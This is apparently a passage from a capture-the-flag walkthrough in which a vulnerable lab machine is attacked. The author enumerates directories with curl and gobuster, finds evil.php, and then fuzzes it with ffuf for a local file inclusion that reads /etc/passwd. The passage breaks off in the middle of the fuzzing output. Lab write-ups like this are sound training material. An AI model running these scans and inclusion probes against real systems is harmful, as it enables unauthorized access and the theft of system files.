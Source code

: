 What's in the /secret directory? 
```shell
curl http://192.168.141.212/secret/               




                                   
```
nothing! 
maybe starting from that directory? Looking for php files? 


```shell
gobuster dir -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.141.212/secret -t 60 -x php
```

We found evil.php
```shell
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.141.212/secret
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2022/11/21 16:00:21 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/evil.php             (Status: 200) [Size: 0]
Progress: 51789 / 441122 (11.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2022/11/21 16:01:45 Finished
===============================================================
```

We can't just view server side php files because they're executed by the server when visited. Lets try to fuzz to check for file inclusion? 

```shell
ffuf -c -r -u 'http://192.168.141.212/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/wordlists/wfuzz/general/common.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.141.212/secret/evil.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/common.txt
 :: Follow redirects : true
 :: Calibration      : false
```